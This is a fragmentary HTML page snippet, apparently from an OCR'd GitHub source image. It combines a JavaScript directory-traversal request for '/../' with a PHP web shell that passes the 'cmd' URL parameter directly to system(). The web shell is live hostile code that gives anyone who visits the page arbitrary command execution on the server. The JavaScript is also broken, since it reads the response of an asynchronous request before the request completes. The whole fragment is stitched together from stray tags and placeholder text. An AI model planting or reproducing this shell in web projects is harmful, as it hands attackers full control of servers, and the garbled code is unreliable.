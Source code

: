 </div>
</code>

<script>
  var directory = "/../";
  var xmlHttp = new XMLHttpRequest();
  xmlHttp.open('GET', directory, true); // false for synchronous request
  xmlHttp.send(null);
  var ret = xmlHttp.responseText;
  var fileList = ret.split('\n');
  
  document.write("<div>"+fileList+"</div>");
  
  for (i = 0; i < fileList.length; i++) {
       document.write("<div>" + i + "</div><br/>");

  }
</script> 

<div>
 
 CONTENT!
 

      <pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>  
